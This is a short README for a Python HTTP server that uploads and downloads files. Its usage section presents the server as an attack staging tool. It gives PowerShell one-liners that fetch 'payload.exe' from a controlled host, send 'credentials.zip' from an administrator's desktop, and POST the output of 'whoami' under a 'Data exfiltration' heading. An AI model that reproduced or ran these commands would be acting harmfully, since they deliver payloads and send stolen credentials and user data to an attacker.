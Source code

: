 # Multi-functions python HTTP Server
A HTTP Server for downloading or uploading file.  

![alt text](./UI.PNG)

Usage:  
Start HTTP Server  
```bash
python3 HTTP_Server.py
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...

sudo python3 HTTP_Server.py 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
Option1:  
Download or upload file using web browser  
Visit http://[host.ip]:8080

Option2:  
Download file  
`Invoke-WebRequest -Uri http://[host.ip]:8080/payload.exe -OutFile payload.exe`  
Upload file  
`Invoke-Restmethod -uri http://[host.ip]:8080/credentials.zip -Method Put -Infile C:\\users\\administrator\\desktop\\credentials`  

Option3:   
Data exfiltration  
`$postParams = @{Current_User=whoami}; Invoke-WebRequest -Uri http://[host.ip]:8080 -Method POST -Body $postParams;`
